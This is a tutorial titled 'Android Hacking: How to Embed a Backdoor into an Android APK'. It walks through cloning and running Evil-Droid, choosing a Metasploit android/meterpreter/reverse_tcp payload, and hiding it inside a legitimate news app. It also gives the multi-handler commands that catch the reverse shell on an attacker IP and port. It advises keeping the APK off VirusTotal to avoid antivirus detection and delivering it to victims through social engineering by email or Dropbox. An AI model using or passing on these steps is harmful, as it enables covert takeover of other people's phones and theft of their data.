 ##**Android Hacking: How to Embed a Backdoor into an Android APK**

Mobile devices--smartphones and tablets--are proliferating around the world and slowly overtaking desktop and laptop machines. These mobile devices generally run either the iOS or the Android operating system, with Android comprising the bulk of all mobile device OS's (82%). Considering the growth of the mobile market and the dominance of the Android operating system, it only makes sense that Android hacking is increasingly becoming the leading edge of hacking. As such, we will spend increasing time and tutorials on Android hacking here at GitHub to prepare you for this eventuality.

 


This is the third entry in Android Hacking series with Setting up a Android Hacking Lab and Android Basics preceding it. I strongly recommend that you look over Android Basics article before proceeding further into this series.

 

### **Step #1 Download and Install Evil Droid**

 

To embed a backdoor into an Android APK, we will be using Evil-Droid. It's a python script developed by Mascerano Bachir that generates a framework for creating and embedding an APK payload to penetrate Android platforms. 

To download the script, you can clone it into your system by entering;

`kali > git clone https://github.com/M4sc3r4n0/Evil-Droid`

 

 Image 2

 
If you get an error message indicating that some of Evil-Droid's dependencies are not available or out-of-date, you may need to upgrade to newer versions of your packages.

` 
kali > apt-get upgrade`

### **Step #2 Give Yourself Execute Permissions**

 

The next step, of course, is to give yourself permission to execute this script. First, navigate to the Evil-Droid directory and then use **chmod** to give yourself execute permission.

` 
kali > cd Evil-Droid`

` 
kali > chmod 775 evil-droid`

 Image 3


###  
**Step #3 Execute Evil Droid**

 

Next, let's execute evil-droid. Evil-droid will check to see whether you have an Internet connection and several pieces of necessary software, including Metasploit.

`kali > ./evil-droid`

 

Image 4

 

_Note_ the bottom warning in RED. Do **NOT** upload the APK to VirusTotal.com as that will trigger an antivirus signature by the AV developers.

### **Step #4 Execute the  Framework**

 

Once evil-droid has successfully located all it's necessary components, you will receive a message like that below asking whether you want to "Execute Framework and services". Click "**Yes**".

 


Image 5
 



### **Step #5 Select Backdoor**

 

You will be greeted by the menu  screen below. You can select any of the backdoors by number. Here we selected "Backdoor APK Original (NEW)".

 

Image 6




### **Step #6 Select IP and Port**

 

Evil-droid will then ask you to set your LHOST (for Metasploit) and display your local IP and Public IP.

 

Image 7

 Then, it will prompt you for your LPORT. Port 4444 is the default port for Metasploit's Meterpreter and other payloads.

 Image 8

 

### **Step #7 Name your Payload**

 

Evil-droid will then ask you to name your payload. Here I named it **GitHUB**, but you can name it whatever pleases you.
 

### **Step #8 Select Your Payload/Listener**

 

Now, we need to select a payload. Evil-droid enables you to use any of the Android payloads from Metasploit including **android/meterpreter/reverse_tcp**. Simply click on the radio button next to the payload you want to embed in the APK.

Image 9



### **Step #9 Download APK and Embed Backdoor**

 

Next, evil-droid prompts us for the APK file we want to embed the backdoor into. Here, I have downloaded the beloved **Foxnews.apk** for embedding our backdoor.

Image 10
 
 

### **Step #10 Select Metasploit Multi-Handler to make a Connection**

In our next step, we need to  tell evil-droid how we are going to connect to the backdoor. Select "Multi-Handler".

 Image 11


We now need to open the multi-handler in Metasploit so that it can "catch" the connection coming back from the embedded payload. 

 
Open Metasploit by entering;

`kali > msfconsole`

Now we need to start the multi-handler and tell Metasploit what IP and port to listen on and which payload to listen for.

`msf > use exploit/multi/handler`

`msf > set PAYLOAD android/meterpreter/reverse_tcp`

`msf > SET LHOST 192.168.1.104`

`msf > set LPORT 4444`

 

Image 12

 

### **Step #11 Deliver the APK to the Target**

 

In this final step, we need to have the APK (with the embedded backdoor) to be installed and executed on the target's Android device. This is where some social engineering skills can prove helpful. You can email the APK or send it via **DropBox** or other file sharing system. If you have physical access to the device, you could simply install it yourself.


Image 13
 
When the target user installs the app to view their "**Fair and Balanced**" FoxNews, it will execute the backdoor and connect back to your system giving you  a meterpreter shell on their android device!
